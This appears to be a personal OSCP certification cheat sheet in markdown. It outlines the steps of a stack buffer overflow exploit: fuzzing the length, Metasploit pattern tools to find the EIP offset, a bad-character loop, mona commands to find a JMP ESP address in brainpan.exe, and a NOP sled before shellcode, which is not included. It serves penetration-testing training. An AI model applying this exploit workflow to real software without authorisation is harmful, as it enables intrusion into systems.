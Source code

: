 ```yaml
---
title: OSCP CheatSheet
tags: OSCP
key: 20190516
comments: true
---
```


Just some oscp cheat sheet stuff that I customized for myself. It may look messy, I just use it to copy the command I needed easily.

The content in this [repo](https://github.com/xMilkPowderx/OSCP) is not meant to be a full list of commands that you will need in OSCP. It rather just a list of commands that I found them useful with a few notes on them.

## Buffer Overflow

**1. Check buffer length to trigger overflow**  

**2. Cofirm overflow length, append "A" * length**  

**3. Generate Offset to check EIP, ESP location**
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <length>

Record value on EIP, select ESP and click "Follow in Dump"  
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <value> -l <length>  

Use !mona to find the offset after the overflow  
!mona findmsp  
```
**4. Confirm EIP by adding "B" * 4 after the number of offset. Also, add a number of "C" to track the number of characters that can be added after EIP to confirm length of shellcode**

**5. Check bad characters after EIP. common bad characters are 0x00, 0x0A. Follow dump in ESP to check are there something missing after that.**
```
Add code:

badchar = [0x00]
for ch in range (0x00 , 0xFF+1):
	if ch not in badchar:
		<payload> += chr(ch)
```
**6. Find JMP ESP address in the system.**
```
JMP ESP = FFE4

!mona jmp -r esp -cpb "\x00\x0A" << bad character

!mona modules
!mona find -s "\xff\xe4" -m brainpan.exe

check the value of the address by naviate to it.
Set breakpoint
Change "B" in EIP to the address of JMP ESP << littile edian

e.g. 0x311712f3 >> "\xf3\x12\x17\x31"

Run again to check is the breakpoint triggered
```
**7. Add shellcode**
```
Add a few \x90 before shellcode to avoid shellcode being modify

```